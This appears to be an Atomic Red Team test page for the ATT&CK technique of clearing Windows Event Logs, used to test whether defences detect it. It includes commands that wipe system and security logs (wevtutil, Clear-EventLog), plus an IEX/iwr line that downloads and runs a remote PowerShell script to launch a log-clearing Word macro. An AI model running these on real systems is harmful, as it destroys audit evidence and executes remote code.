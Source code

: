 # T1070.001 - Clear Windows Event Logs
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1070/001)
<blockquote>Adversaries may clear Windows Event Logs to hide the activity of an intrusion. Windows Event Logs are a record of a computer's alerts and notifications. There are three system-defined sources of events: System, Application, and Security, with five event types: Error, Warning, Information, Success Audit, and Failure Audit.

The event logs can be cleared with the following utility commands:

* <code>wevtutil cl system</code>
* <code>wevtutil cl application</code>
* <code>wevtutil cl security</code>

These logs may also be cleared through other mechanisms, such as the event viewer GUI or [PowerShell](https://attack.mitre.org/techniques/T1059/001).</blockquote>

## Atomic Tests

- [Atomic Test #1 - Clear Logs](#atomic-test-1---clear-logs)

- [Atomic Test #2 - Delete System Logs Using Clear-EventLog](#atomic-test-2---delete-system-logs-using-clear-eventlog)

- [Atomic Test #3 - Clear Event Logs via VBA](#atomic-test-3---clear-event-logs-via-vba)


<br/>

## Atomic Test #1 - Clear Logs
Upon execution this test will clear Windows Event Logs. Open the System.evtx logs at C:\Windows\System32\winevt\Logs and verify that it is now empty.

**Supported Platforms:** Windows


**auto_generated_guid:** e6abb60e-26b8-41da-8aae-0c35174b0967





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| log_name | Windows Log Name, ex System | String | System|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
wevtutil cl #{log_name}
```






<br/>
<br/>

## Atomic Test #2 - Delete System Logs Using Clear-EventLog
Clear event logs using built-in PowerShell commands.
Upon successful execution, you should see the list of deleted event logs
Upon execution, open the Security.evtx logs at C:\Windows\System32\winevt\Logs and verify that it is now empty or has very few logs in it.

**Supported Platforms:** Windows


**auto_generated_guid:** b13e9306-3351-4b4b-a6e8-477358b0b498






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
$logs = Get-EventLog -List | ForEach-Object {$_.Log}
$logs | ForEach-Object {Clear-EventLog -LogName $_ }
Get-EventLog -list
```






<br/>
<br/>

## Atomic Test #3 - Clear Event Logs via VBA
This module utilizes WMI via VBA to clear the Security and Backup eventlogs from the system. 

Elevation is required for this module to execute properly, otherwise WINWORD will throw an "Access Denied" error

**Supported Platforms:** Windows


**auto_generated_guid:** 1b682d84-f075-4f93-9a89-8a8de19ffd6e






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1" -UseBasicParsing)
Invoke-Maldoc -macroFile "PathToAtomicsFolder\T1070.001\src\T1070.001-macrocode.txt" -officeProduct "Word" -sub "ClearLogs"
```




#### Dependencies:  Run with `powershell`!
##### Description: Microsoft Word must be installed
##### Check Prereq Commands:
```powershell
try {
  New-Object -COMObject "Word.Application" | Out-Null
  Stop-Process -Name "winword"
  exit 0
} catch { exit 1 }
```
##### Get Prereq Commands:
```powershell
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
```




<br/>
